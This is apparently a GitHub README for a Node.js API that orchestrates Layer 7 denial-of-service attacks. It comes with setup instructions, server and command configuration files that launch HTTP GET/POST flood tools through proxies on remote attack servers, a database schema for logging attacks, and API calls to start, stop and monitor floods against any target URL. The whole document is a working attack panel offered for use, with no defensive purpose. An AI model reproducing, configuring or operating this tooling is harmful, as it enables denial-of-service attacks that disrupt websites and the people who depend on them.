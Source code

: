 <h2>NodeJS API for Layer 7 attacks (Updated 25 Feb, 2024)</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (takes 2x the ping between the API and the backend, i.e. the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -fsSL https://deb.nodesource.com/setup_21.x | sudo -E bash - &&\
sudo apt-get install -y nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "host": "1.1.1.1",
        "port": 3000,
        "slots": 15
    },
    "2": {
        "name": "2",
        "host": "2.2.2.2",
        "port": 3000,
        "slots": 15
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "api_port": 3000
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

<h3>Setup the Database</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## After that, upload socket.js to the attack servers and upload api.js, servers.json and commands.json to the API server


### Reverse Proxy

Making a reverse proxy using Nginx to use your API is recommended:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Replace `'http://backend:3000/api/attack'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=HTTPGET`

You can stop the attacks by sending a GET request to the API using the attack ID

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

You can also view all running attacks and server usage by sending a GET request to the API

GET `https://api.yourdomain.com/api/status`

You can also stop all the attacks sending a GET request to the API

GET `https://api.yourdomain.com/api/stop_all`

